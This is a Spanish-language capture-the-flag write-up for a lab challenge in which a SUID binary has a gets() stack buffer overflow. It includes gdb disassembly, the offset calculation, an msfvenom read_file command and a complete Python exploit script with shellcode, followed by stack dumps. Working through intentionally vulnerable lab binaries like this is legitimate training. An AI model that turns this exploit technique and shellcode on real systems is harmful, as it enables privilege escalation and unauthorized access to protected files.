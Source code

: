 ##Exploiting I

###Enunciado 

Bienvenido al reto 1 de exploiting.

El reto se encuentra en /retos/exploiting1 y la flag en /flags/flag1.
Si necesitas usar un directorio con permisos de escritura puedes usar
tu propia carpeta en /tmp. El comando mktemp -d es tu amigo.
A tu disposición tienes gdb y radare2, ademas de python, ruby y perl.
Por favor, no abuses del sistema. Máximo dos conexiones SSH por persona.
Si tienes dudas recuerda que está el grupo de Telegram y el correo.Bienvenido al reto 1 de exploiting.

###Solución

El fichero donde está el flag no tiene permisos de lectura para el usuario 'exploiting1', pero si los tiene el usuario 'exploiting-win'. Además, el ejecutable "/retos/exploiting1" tiene el permiso SUID de "exploiting-win'. O sea, que lo puede ejecutar todo el mundo con sus derechos. Por lo tanto si tenemos el control de ese programa podremos leer el flag.
Ejecutando el programa y ya podemos intuir que se va a tratar de un clásico buffer overflow

```
I have no name!@yuki:/tmp/tmp.7t5nus5kAJ$ /retos/exploiting1
name is at [0xffffd528]
ksdfjjdfkl
ksdfjjdfkl
I have no name!@yuki:/tmp/tmp.7t5nus5kAJ$
```

¡Y encima te ayudan dándote dónde esta la variable! En esta dirección(0xffffd528) es dónde colocaremos nuestro shellcode para que se ejecute.
Hay que aclarar que el binario no tiene ningún tipo de protección de pila, ni ASLR, nada de nada.

Calculamos el offset con "pattern_create.rb" y "pattern_offset.rb" de metasploit y nos da 212 bytes.

Analizando el ensamblador del programa nos encontramos con las funciones "main" y "hello"

```
(gdb) disas main
Dump of assembler code for function main:
   0x080484ab <+0>:     lea    ecx,[esp+0x4]
   0x080484af <+4>:     and    esp,0xfffffff0
   0x080484b2 <+7>:     push   DWORD PTR [ecx-0x4]
   0x080484b5 <+10>:    push   ebp
   0x080484b6 <+11>:    mov    ebp,esp
   0x080484b8 <+13>:    push   ecx
   0x080484b9 <+14>:    sub    esp,0x4
   0x080484bc <+17>:    call   0x80484cf <hello>
   0x080484c1 <+22>:    mov    eax,0x0
   0x080484c6 <+27>:    add    esp,0x4
   0x080484c9 <+30>:    pop    ecx
   0x080484ca <+31>:    pop    ebp
   0x080484cb <+32>:    lea    esp,[ecx-0x4]
   0x080484ce <+35>:    ret
End of assembler dump.

(gdb) disas hello
Dump of assembler code for function hello:
   0x080484cf <+0>:     push   ebp
   0x080484d0 <+1>:     mov    ebp,esp
   0x080484d2 <+3>:     sub    esp,0xd8
   0x080484d8 <+9>:     sub    esp,0x8
   0x080484db <+12>:    lea    eax,[ebp-0xd0]
   0x080484e1 <+18>:    push   eax
   0x080484e2 <+19>:    push   0x80485c0
   0x080484e7 <+24>:    call   0x8048350 <printf@plt>
   0x080484ec <+29>:    add    esp,0x10
   0x080484ef <+32>:    mov    eax,ds:0x8049820
   0x080484f4 <+37>:    sub    esp,0xc
   0x080484f7 <+40>:    push   eax
   0x080484f8 <+41>:    call   0x8048360 <fflush@plt>
   0x080484fd <+46>:    add    esp,0x10
   0x08048500 <+49>:    sub    esp,0xc
   0x08048503 <+52>:    lea    eax,[ebp-0xd0]
   0x08048509 <+58>:    push   eax
   0x0804850a <+59>:    call   0x8048370 <gets@plt>
   0x0804850f <+64>:    add    esp,0x10
   0x08048512 <+67>:    sub    esp,0xc
   0x08048515 <+70>:    lea    eax,[ebp-0xd0]
   0x0804851b <+76>:    push   eax
   0x0804851c <+77>:    call   0x8048380 <puts@plt>
   0x08048521 <+82>:    add    esp,0x10
   0x08048524 <+85>:    leave
   0x08048525 <+86>:    ret
End of assembler dump.
```

Como el programa "revienta" metiéndole 212 caracteres después de sobrescribir la dirección de retorno de "hello", ponemos un break en ret para ver la pila con nuestras 'A' sobrescribiendo la dirección de retorno.

```
(gdb) br *0x8048525
Note: breakpoint 1 also set at pc 0x8048525.
Breakpoint 2 at 0x8048525

0xffffd5fc:     0x41414118      0x41414141      0x41414141      0x41414141
0xffffd60c:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd61c:     0xFABADAFA      0xf7fd1300      0xffffd640      0x00000000
0xffffd62c:     0xf7e39637      0xf7fd1000      0xf7fd1000      0x00000000
```

En la dirección {0xffffd61c]=0xFABADAFA es donde vamos a apuntar al principio de nuestro shellcode. Que como ya hemos dicho más arriba es la dirección de la variable "name"(0xffffd528). 

Por lo tanto, ya podemos hacer nuestro python para explotarlo: tenemos 212 bytes para meter nuestro shellcode, luego rellenarlo con "A" lo que sobre y los últimos cuatro caracteres serán la dirección de la pila donde empieza el shellcode.

Como queremos leer un archivo, metasploit tiene un payload dedicado para esto. También le he metido 16 NOP's para evitar problemas (el famoso tobogan) con el argumento -n 16

```
msfvenom -p linux/x86/read_file PATH=/flags/flag1 -n 16 -b '\x00\x20\x0d\x0a' -f python
```

Ya tenemos todo para construir nuestro cutre script:

```
#!/usr/bin/env python

buf =""

buf += "\xd6\x91\x43\x93\x2f\xfc\x43\xd6\x48\xd6\xd6\x37\x9f"
buf += "\xfc\x3f\x49\xbd\x15\xa0\x41\xf4\xda\xcf\xd9\x74\x24"
buf += "\xf4\x5a\x31\xc9\xb1\x13\x31\x6a\x14\x03\x6a\x14\x83"
buf += "\xea\xfc\xf7\x55\xaa\xc2\x4f\x90\x2d\x2b\xaf\xc0\x1c"
buf += "\xe2\x62\x76\xd7\x37\xc4\x74\xe8\xb7\x34\xf2\x0f\x3e"
buf += "\xcd\xbe\xd0\x51\x2d\xbf\x1d\xd1\xa4\x7d\x25\xd6\xb6"
buf += "\x81\x56\x6c\xb7\x81\x56\x92\x7a\x01\xee\x93\x84\x02"
buf += "\x0f\x2f\x84\x02\x0f\x4f\x49\x82\xe7\x8a\xae\x7c\x08"
buf += "\x3b\x36\xef\x96\x23\xc5\xc0\x3e\xc0\x48\x78\x8e\x18"

#offset 212
buf += "A" * (212 - len(buf))

#0xffffd528
buf += "\x28\xd5\xff\xff"

print buf
```

Aqui la pila con el payload: (con gdb donde empieza el payload cambia a 0xffffd548)

```
0xffffd53c:     0xf7fd52b8      0x00000000      0x00000000      0x90909090
0xffffd54c:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd55c:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd56c:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd57c:     0x90909090      0x90909090      0x90909090      0x934391d6
0xffffd58c:     0xd643fc2f      0x37d6d648      0x493ffc9f      0x41a015bd
0xffffd59c:     0xd9cfdaf4      0x5af42474      0x13b1c931      0x03146a31
0xffffd5ac:     0xea83146a      0xaa55f7fc      0x2d904fc2      0x1cc0af2b
0xffffd5bc:     0xd77662e2      0xe874c437      0x0ff234b7      0xd0becd3e
0xffffd5cc:     0x1dbf2d51      0x257da4d1      0x5681b6d6      0x5681b76c
0xffffd5dc:     0xee017a92      0x0f028493      0x0f02842f      0xe782494f
0xffffd5ec:     0x087cae8a      0x96ef363b      0x3ec0c523      0x8e7848c0
0xffffd5fc:     0x41414118      0x41414141      0x41414141      0x41414141
0xffffd60c:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd61c:     0xffffd548      0xf7fd1300      0xffffd640      0x00000000
0xffffd62c:     0xf7e39637      0xf7fd1000      0xf7fd1000      0x00000000
```

That's all friends!
